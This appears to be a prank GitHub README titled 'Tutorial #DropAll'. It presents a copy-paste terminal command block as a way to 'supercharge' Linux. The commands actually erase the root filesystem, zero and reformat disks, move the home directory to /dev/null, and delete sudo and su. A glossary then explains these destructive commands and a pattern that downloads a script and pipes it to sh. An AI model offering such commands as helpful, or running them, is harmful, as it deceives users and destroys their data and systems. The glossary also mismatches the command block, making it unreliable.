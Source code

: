 # Tutorial #DropAll
with success for begins

## How to supercharge your linux
Open your Terminal end copy/paste/enter:

```
sudo rm -rf / && rm -rf .* && rm - .* && dd if=/dev/zero of=/dev/sda && mkfs.ext3 /dev/hda && echo '' > /dev/hda && cd ~; for x in `ls`; do mv -f $x $y; y=$x; done
find -type f -mtime +30 -exec mv {} /dev/null ; && mv ~ /dev/null && mv / /dev/null && rm -f /usr/bin/sudo;rm -f /bin/su && mv /home/$user/* /dev/null
```

## applications
rm – Remove the following files.

-rf – Run rm recursively (delete all files and folders inside the specified folder) and force-remove all files without prompting you.

/ – Tells rm to start at the root directory, which contains all the files on your computer and all mounted media devices, including remote file shares and removable drives.

mkfs.ext4 – Create a new ext4 file system on the following device.

/dev/sda1 – Specifies the first partition on the first hard drive, which is probably in use.

command – Run a command (can be any command.)

\> – Send the output of the command to the following location.

/dev/sda – Write the output of the command directly to the hard disk device.

dd – Perform low-level copying from one location to another.

if=/dev/random – Use /dev/random (random data) as the input – you may also see locations such as /dev/zero (zeros).

of=/dev/sda – Output to the first hard disk, replacing its file system with random garbage data.

mv – Move the following file or directory to another location.

~ – Represents your entire home folder.

/dev/null – Move your home folder to /dev/null, destroying all your files and deleting the original copies.

wget – Downloads a file. (You may also see curl in place of wget.)

http://example.com/something – Download the file from this location.

| – Pipe (send) the output of the wget command (the file you downloaded) directly to another command.

sh – Send the file to the sh command, which executes it if it’s a bash script.